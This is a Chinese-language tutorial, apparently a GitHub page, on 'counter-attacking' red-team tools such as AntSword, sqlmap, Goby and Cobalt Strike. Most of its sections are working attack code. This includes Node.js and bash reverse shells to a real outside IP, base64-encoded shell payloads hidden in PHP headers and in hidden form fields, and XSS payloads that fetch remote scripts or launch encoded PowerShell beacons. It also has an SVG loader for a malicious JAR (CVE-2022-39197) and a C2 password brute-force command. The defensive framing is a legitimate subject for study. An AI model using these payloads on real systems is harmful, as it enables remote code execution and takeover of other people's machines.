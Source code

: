 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

若能xss直接rce：
```
<img src=x onerror="const{exec}=require('child_process');exec('start calc.exe');">
```

## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限
## **SQLMAP反制**

蓝队提前构造注入页面诱使红队进行 sqlmap 注入拿到红队机器权限原理

复现环境：

* 蓝队：Linux Web
* 红队：Linux sqlmap

原理：

命令管道符``：
```
linux： ping   "`ls`"     先执行ls当为命令作为参数，再执行ping
Windows： ping | dir     先执行ping，再执行dir
```
构造注入点页面固定注入参数值，等待攻击者进行注入
参数中有``执行反弹shell命令
```
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`dir`"
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`exec /bin/sh 0</dev/tcp/47.94.236.117/2333 1>&0 2>&0`"
```
> 任意sqlmap版本，注意当前操作系统的管道符进行替换即可
    
实战操作：
1、测试反弹编码
```
bash -i >& /dev/tcp/47.94.236.117/2333 0>&1 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYxechoYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i
```

2、蓝队构造页面test.php注入页面固定参数值
```
<html>
<head>
    <meta charset="utf-8">  
    <title> A sqlmap honeypot demo</title>
</head>
<body>
 <input>search the user</input>   <!--创建一个空白表单-->
 
 <form action="pass.php" method="post" enctype="text/plain">
  
  <!--创建一个隐藏的表单-->
  <input type='hidden' name='name' value="Lucy&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"/> 
  <!--创建一个按钮，提交表单内容-->
  <input type="submit" value='提交'>
 
 </form>
 
</body>
</html>
```

3、红队攻击者进行注入测试
没有观察就直接执行命令，导致执行了反弹shell命令。
```
sqlmap -u "http://xx.xx.xx.xx/test.php" --data "name=xiaodi&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"
```

## **漏洞扫描工具Goby反制**
Goby客户端也是有nodejs环境。
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 Goby

测试的JS文件
> 1.js
```
(function(){
require('child_process').exec('calc.exe');
})();
```

RCE:
> index.php
```
<?php
header("X-Powered-By: PHP/<img src=1 onerror=import(unescape('http%3A//127.0.0.1/2.js'))>");
?>
<head>
<title>TEST</title>
</head>
<body>
testtest
</body>
</html>
```

> 2.js里面那串是CS生成的powershell命令上线脚本
>红队扫描到这个有php的网址
> 查看资产就会上线

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD......RQBuAGQAKAApADsA');
})();
```

## **远程控制工具CobaltStrike反制**
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 

对抗Cobaltstrike中的手段：
### **1、伪造流量让cs批量上线假的(欺骗防御，恶搞)**
链接：https://mp.weixin.qq.com/s/VCRg6F9Wq-yg-qajDoJuaw 

### **2、利用漏洞(CVE-2022-39197)**
> Cobalt Strike<=4.7 xss2rce
复现文章：<https://blog.csdn.net/qq_44110340/article/details/130731647>

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

* 获取真实ip地址
* 获取NTLM
* RCE
* SSRF

链接：https://github.com/its-arun/CVE-2022-39197
修改EXP里面的代码，EvilJar/src/main/java/Exploit.java，如执行命令，后编译成.jar

修改svg文件中加载地址：evil.svg指向url地址为公网的EvilJar-1.0-jar-with-dependencies.jar
```
<svg xmlns="http://www.w3.org/2000/svg"xmlns:xlink="http://www.w3.org/1999/xlink"version="1.0"><script type="application/java-archive"xlink:href="http://47.94.236.117:8888/EvilJar-1.0-jar-with-dependencies.jar*/><text>CVE-2022-39197</text></svg>
```
可以用python开启访问web服务：
```
python -m http.server 8888
```
执行EXP，自动运行后门上线，攻击者客户端进入列表查看进程时触发命令执行。
```
python cve-2022-39197.py 木马.exe http://47.94.236.117:8888/evil.svg
```

### **3、反制Server服务器,爆破密码（通用)**
针对没有采用隐匿C2地址的技术（cdn，云函数）导致的反制（后门样本被溯源到C2地址）。

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

链接：https://github.com/ryanohoro/csbruter
爆破服务端密码：
```
python csbruter.py 127.0.0.1:50050 pass.txt
```
爆出密码即可在cs本地端连接对方服务器。

